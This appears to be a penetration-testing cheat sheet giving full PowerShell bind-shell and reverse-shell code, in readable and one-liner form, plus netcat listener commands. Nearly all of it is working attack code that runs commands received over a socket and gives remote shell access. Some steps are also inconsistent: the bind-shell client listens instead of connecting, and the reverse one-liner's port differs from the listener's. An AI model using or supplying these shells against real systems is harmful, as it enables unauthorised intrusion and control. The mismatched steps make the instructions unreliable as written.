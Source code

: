# Remote Shells

This is much simpler to do with powercat, but bind shells can be created manually as shown below.

### Bind Shell

#### Server (Pretty Version)

```powershell
$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',443);
$listener.start();
$client = $listener.AcceptTcpClient();
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};

while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
{;
	$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
	$sendback = (iex $data 2>&1 | Out-String );
	$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
	$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
	$stream.Write($sendbyte,0,$sendbyte.Length);
	$stream.Flush()
};
$client.Close();
$listener.Stop()
```

#### Server (One-Liner)

```powershell
powershell -c "$listener = New-Object System.Net.Sockets.TcpListener('0.0.0.0',443);$listener.start();$client = $listener.AcceptTcpClient();$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close();$listener.Stop()"
```

#### Client

```bash
sudo nc -lvnp 192.168.216.10 443
```

Pressing 'ENTER' will cause the prompt to show up.

### Reverse Shell

#### Server

```bash
sudo nc -lvnp 443
```

Pressing 'ENTER' will cause the prompt to show up once a connection is made.

#### Client (Pretty version)

```powershell
$client = New-Object System.Net.Sockets.TCPClient('192.168.119.216',443);
$stream = $client.GetStream();
[byte[]]$bytes = 0..65535|%{0};
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0)
{
$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
# Invoke-Expression (iex) cmdlet, runs any string it receives as a command and redirects results back
$sendback = (iex $data 2>&1 | Out-String );
$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$stream.Write($sendbyte,0,$sendbyte.Length);
$stream.Flush();
}
$client.Close();
```

#### Client (One-Liner )

Same as above, but lines are connected together with no space after semi-colon

```powershell
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('192.168.119.216',8000);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```


